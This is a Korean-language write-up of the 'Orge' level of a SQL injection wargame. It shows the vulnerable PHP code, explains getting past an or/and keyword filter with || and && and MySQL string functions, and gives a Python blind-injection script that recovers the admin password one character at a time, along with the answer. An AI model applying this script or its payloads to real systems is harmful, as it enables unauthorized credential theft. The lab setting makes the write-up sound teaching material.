 ###### 이번부터 한글로 적기로 하였습니다..
# **Darkelf**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~"); 

      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe"); 
      
      $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 
   
      $_GET[pw] = addslashes($_GET[pw]); 
      $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if(($result['pw']) && ($result['pw'] == $_GET['pw']))
        solve("orge"); 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
이전 다크엘프 문제와 동일하게 or과 and를 사용할 수 없습니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_orge where id='guest' and pw='{$_GET[pw]}' # 이전 쿼리

    select pw from prob_orge where id='admin' and pw='{$_GET[pw]}' # 결론적인 쿼리

접근 할 수 있는 부분 : pw GET parameter

### 3. if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 

pw가 GET 파라미터의 pw와 같을 때, 클리어 처리가 됩니다. 따라서 우리는 정확히 패스워드를 알 수 있어야 합니다.

### 4. $_GET[pw] = addslashes($_GET[pw]); 

addslashes는 특수문자로 부터 발생할 수 있는 에러를 방지하고자 사용합니다.

    example)
    before:
      'test'입니당

    after:
      \'test\'입니당

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것과 패스워드를 얻어 오는 것 뿐만 아니라 우리가 그것이 무엇인지를 알 수 있어야 한다는 점입니다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### 2. 패스워드의 길이를 알아보자, length
MySQL을 하다보면 length 라는 함수가 있음을 알 수 있습니다.  
초반에 시도 했던 영어 writeup 에 적어 놨던걸로 기억하지만 다시 정리 해보자면  
length (str) 의 형태를 띄는 함수입니다. str의 길이를 반환 해줍니다. 따라서 아래와 같은 조건식은 성립합니다.

    (pw="password" 일때)
    length(pw)=8 // 성립!!

### 3. 조건에 따라서 다른 값, if
우리는 프로그래밍을 할 때 if라는 것을 많이 사용합니다.  
if의 조건문이 성립하면 아래의 내용을 실행하고  
아닐경우 else의 내용을 실행합니다. 

이것도 그와 매우 흡사합니다.  
if(조건문, true반환값, false반환값)

이해가 안 된다면 그럼 아래의 예제를 보면 이해가 될것입니다.  

    if(1=1,1,0) // 1 반환
    if(1=0,1,0) // 0 반환

### 4. 문자열을 잘라보자, substr, etc...
우리는 문자열 전부를 알지는 못하기 때문에 일부분만을 이용해서 전체를 알아보려는 시도를 할 수 있다.  
그러기 위해 우리는 mysql의 이런 함수들을 사용할 수 있다.

    mid | substr | substring | left | right

    기타 문자연 처리 함수들

    LTRIM | RTRIM | TRIM // 왼쪽, 오른쪽의 공백을 지워준다.

    replace(src, from, to) src에서 from을 to로 치환합니다.

    instr(src, find_str) src에서 find_str을 처음 찾은 인덱스를 반환합니다.

    ascii(char) char의 아스키 값을 반환합니다

### 5. 와일드 카드
우리는 like 함수를 통해서 문자열에 무엇이 속해있는지 같은지를 체크할 수 있습니다. str%, %str, %str%, __(여백문자)

    pw="password" 일때

    pw like "p%" // true
    pw like "pa%" // true

    pw like "________" // true

    pw like "__" // false

    pw like "%o_d" // true


### My Answers :

우리는 이 문제를 풀때에 있어 브라우저의 주소의 페이로드를 바꿔가며 입력해 보는 방법은 할 수 없습니다. 아, 물론 삽질 정신이 가득한 사람이라면은 가능 하겠지만.. 전 Python 코드를 작성하여 찾아 보았습니다.

    #-*- coidng: utf-8 -*-
    #Los / 07. Orge

    import urllib2

    result = '' # I will save key to this var
    url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw={}" # url. we can insert data into {} by using format()
    length = 0

    def getContent(value, purpose):
	    req = urllib2.Request(url.format(value))

	    req.add_header('User-Agent', "Mozila/5.0")  # Browser info
	    req.add_header('Cookie', 'PHPSESSID=uvjnp5kaltqk6o7q6v629hbqp4')  # PHP SESSION ID
	    req.add_header('__cfduid', 'd94c5132db81e12788364d9a966964cd31507633746')

	    content = urllib2.urlopen(req).read()

	    if content.find(purpose) != -1:
		    return True

    for i in range(1,1000):
	    print i
	  
    if getContent("'||length(pw)='" + str(i), "Hello admin"): # guest pw length = 15 & admin pw length = 8
		length = i
		print "length is", length
		break

    for i in range(0, length):
        for j in range(32,127): # 표시 가능한 구역
		if j == 37:
		  continue
		print result + chr(j)
		if getContent("'||pw like '" + result + chr(j) + '%25', "Hello admin"):
		  result += chr(j)
		  print "find key ::", i, j, "::", result
		  break

    if len(result) == length:
	  print "Failed.."
	  exit(0)

    print "success", result.lower()

    # Result 6c864dec
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**